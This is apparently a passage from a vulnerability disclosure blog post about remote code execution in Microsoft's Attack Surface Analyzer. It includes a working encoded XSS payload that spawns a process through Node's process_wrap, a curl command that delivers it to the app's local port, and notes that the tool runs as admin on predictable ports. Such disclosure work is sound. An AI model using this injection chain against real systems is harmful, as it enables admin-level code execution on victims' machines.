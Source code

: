 ```html
58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,
111,114,101,39,125,93,125,41,59))>
```

You can also submit the payload locally via this curl command:

```
curl -vvv -ik -H "Host:localhost:8001" "http://localhost:8001/Home/StartCollection?
Id=<img%20id=%225%22%20src=x%20onerror=eval(String.fromCharCode(118,97,114,32,80,
114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,
110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,
101,115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,
99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,
117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,101,110,
118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,32,101,
110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,121,32,
105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,
39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,115,112,97,
119,110,40,123,102,105,108,101,58,39,99,97,108,99,46,101,120,101,39,44,97,114,103,
115,58,91,93,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,
101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,
101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,
105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,
58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,
114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,
41,59))>&File=false&Port=false&Service=false&User=false&Registry=false&Certificates=true"
```

Switch back to the `Scan` tab (or click on it to reload it if it's already open)
in the guest VM and see `calc` pop up.

{{< imgcap title="Calc in guest VM" src="08-calc-in-vm.png" >}}

Incidentally, the command line value in procmon for running the calc looks like a kaomoji.

{{< imgcap title="Calc in procmon" src="09-calc-procmon.png" >}}

### Funky Gifs
Injecting the payload from VM host:

{{< imgcap title="Injecting from host into guest" src="10-test-run.gif" >}}

Injecting the payload locally:

{{< imgcap title="Localhost and curl" src="11-localhost.gif" >}}

# The Good and the Bad

**[+]** ASA is usually run as Admin. This allows ASA to have more visibility into the
OS and give us better results. This means our RCE is as admin.\
**[+]** The ports are usually `8000` and `8001`. Unless you are running
something else on those ports, it's easy to discover machines running a
vulnerable version of the ASA.\


[electron.net-github]: https://github.com/ElectronNET/Electron.NET
[matt-twitter]: https://twitter.com/mattt_cyber
[electron-website]: https://electronjs.org/
[kestrel-docs]: https://docs.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel
[ASA-v2]: https://github.com/microsoft/AttackSurfaceAnalyzer/releases/tag/v2.0.143%2Bfe41ced7df
[modern.ie]: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
[lewis-twitter]: https://twitter.com/lewisardern
[electron.net-github-webpreferences]: https://github.com/ElectronNET/Electron.NET/blob/3cb92169dd1fc4ca917e1a48551192038f68bbec/ElectronNET.API/Entities/WebPreferences.cs#L18
[electron-security-nodeintegration]: https://github.com/electron/electron/blob/master/docs/tutorial/security.md#2-do-not-enable-nodejs-integration-for-remote-content
[eval-encoder]: https://eve.gd/2007/05/15/javascript-eval-string-fromcharcode-encoder/
[main.js-startAspCoreBackend]: https://github.com/ElectronNET/Electron.NET/blob/131d1d9dd115d480b2c65353d44b9433b8b874f2/ElectronNET.Host/main.js#L141
[kestrel-filtering]: https://docs.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel#host-filtering
[electron-security]: https://github.com/electron/electron/blob/master/docs/tutorial/security.md
[msrc-link]: https://msrc.microsoft.com/
[218-commit]: https://github.com/microsoft/AttackSurfaceAnalyzer/pull/218
[220-commit]: https://github.com/microsoft/AttackSurfaceAnalyzer/pull/220
[launchSettings-link]: https://github.com/microsoft/AttackSurfaceAnalyzer/blob/37bce60e86e1d727970be6e5aa6ba1a1d8083b35/Gui/Properties/launchSettings.json#L30
[collect-link]: https://github.com/microsoft/AttackSurfaceAnalyzer/blob/3dec668982b513f92cb9bc8a00ff57fdaada14da/Gui/wwwroot/js/Collect.js#L59-L98
[lambert-twitter-convo]: https://twitter.com/JohnLaTwC/status/1141765341061627904